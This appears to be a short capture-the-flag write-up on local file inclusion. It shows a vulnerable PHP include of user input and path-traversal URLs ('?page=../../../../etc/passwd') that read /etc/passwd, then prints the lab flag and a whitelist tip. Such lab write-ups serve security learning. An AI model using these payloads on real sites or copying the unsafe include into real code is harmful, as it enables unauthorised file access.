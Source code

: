 # LFI
example of lfi vulnerbale code

>$file = $_GET['file'];
>
>include('directory/' . $file);

In our page we got same thing but with page variable or query for example survey page

> http://ipaddress/?page=survey

We can try and go out of the root folder of the website and acces sensible data like /etc/passswd
as start:
> http://ipaddress/?page=../etc/passwd
nothing we will add ../ till we got a result

finally:
> http://ipaddress/?page=../../../../../../../../etc/passwd

=> Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

To avoid LFI and many other vulnerabilities, never trust user input. If you need to include local files in your website or web application code, use a whitelist of allowed file names and locations. Make sure that none of these files can be replaced by the attacker using file upload functions.
